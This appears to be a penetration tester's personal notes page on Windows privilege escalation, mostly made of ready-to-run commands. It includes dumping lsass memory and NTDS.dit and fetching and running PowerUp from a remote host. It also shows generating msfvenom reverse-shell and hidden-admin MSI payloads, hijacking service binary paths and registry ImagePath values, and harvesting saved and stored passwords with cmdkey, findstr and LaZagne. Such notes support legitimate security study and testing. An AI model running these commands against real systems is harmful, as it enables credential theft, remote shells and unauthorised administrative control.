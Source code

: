 ## RunasCs.exe
Windows script to run specific processes under a different user account
```powershell
PS > .\RunasCs.exe $Username $Password $Command
```
Command can be like `msfvenom reverse shell`
# Processes
Check running processes, could hint at possible VM machine, prompting [[VM Escape]].
## Dumping #lsass Process Memory
### Using Task Manager (GUI)
"Create Dump File" of Local Security Authority Process (LSAP) from Task Manager. It gets saved in `C:\Users\<user>\AppData\Local\Temp`. 

`Task Manager` > `"Processes" tab` > `"Local Security Authority" Process` > `Select Create dump file`
### Using `rundll32.exe`
- On CMD:
```powershell
PS > tasklist /svc
```
- On Powershell: 
```PowerShell
PS > Get-Process lsass
PS > rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PID> <destination> full
```
### Tools
- [[pypykatz]]
## Dumping NTDS.dit
To copy `NTDS.dit` we need local admin (`Administrators group`) or Domain Admin (`Domain Admins group`) (or equivalent) rights, which can be checked with `net localgroup`
### Tools
- [[VSS]]
- [[CrackMapExec#Dump NTDS.dit|CrackMapExec > Dump NTDS.dit]]
# Services
## Service
- Check all services with `sc query`
```cmd
> sc.exe query state=all
```
- Query configuration of a service
```powershell
PS > sc qc <service>
```
- Check access
## Access Check 
- Check `<user>` access to a particular  `service`
```powershell
PS > accesschk /accepteula -uwcqv <user> <service>
```
## Service Permissions
# PowerUp.ps1
```powershell
PS > iex (iwr -usebasicparsing http://<IP>:<PORT>/PowerUp.ps1)
PS > Invoke-AllChecks
```
# Dangerous Settings
## #AlwaysInstallElevated 
Allows to install/run executable with elevated privileges. 
- Create super-user
```shell-session
$ msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o alwe.msi #No uac format
$ msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi 
```
>**!! NOTE:** Using the msiexec the uac wont be prompted
- Create elevated reverse-shell
```shell-session
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f msi -o reverse.msi
```
Install it on the vulnerable system:
```powershell
PS > msiexec /quiet /qn /i C:\path\to\executable.msi
```
## #service_change_config 
If the service runs with `SYSTEM` privileges and we can change its config, change the binary path of the service to our malicious reverse shell and restart it.
```powershell
> sc config <service> binpath= "\"C:\Path\to\rev-shell""
> net start <service>
```
## #unquoted-service-path 
If the service runs with `SYSTEM` privileges and its path is unquoted, check folder permissions to create a script at the vulnerable path.
### Tools
1. [[AccessChk]]
2. [[ICACLS]]
## Registry Permission
If the registry permissions allow to modify, change service path from here.
```powershell
> accesschk /accepteula -uvwqk HKLM\path\to\service
HKLM\System\CurrentControlSet\Services\regsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        KEY_ALL_ACCESS
  RW BUILTIN\Administrators
        KEY_ALL_ACCESS
  RW NT AUTHORITY\INTERACTIVE
        KEY_ALL_ACCESS

> reg add HKLM\path\to\service /v ImagePath /t REG_EXPAND_SZ /d C:\path\to\shell.exe /f
```
## Password in Registry
The registry can be searched for keys and values that contain the word "password"
```powershell
PS > reg query HKLM /f password /t REG_SZ /s
```
## Saved Credentials
List any saved credentials and use them to run script:
```powershell
PS > cmdkey /list
PS > runas /savecred /user:<user> C:\path\to\script
```

# Local System
If not connected to domain, extract #SAM-registry-hive with [[reg.exe]] 
>Note: Need CMD with admin privilege.
![[reg.exe#Save registry]]

## Dumping LSA Secrets/SAM Remotely  ![[CrackMapExec#Dump LSA/SAM Remotely]]
### Tools
- [[pypykatz]] to extract hashes from SAM/SYSTEM

# Enumeration
## Find String within Files
```powershell
> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
> findstr /s /i cred n:\*.*
PS > Get-ChildItem -Recurse -Path N:\ | Select-String "cred" -List
```
## Find Specific Filenames
```powershell
> dir n:\*cred* /s /b
PS > Get-ChildItem -Recurse -Path N:\ -Include *cred* -File
```
## Tools
- [[LaZagne]]
```cmd-session
> lazagne.exe all
```
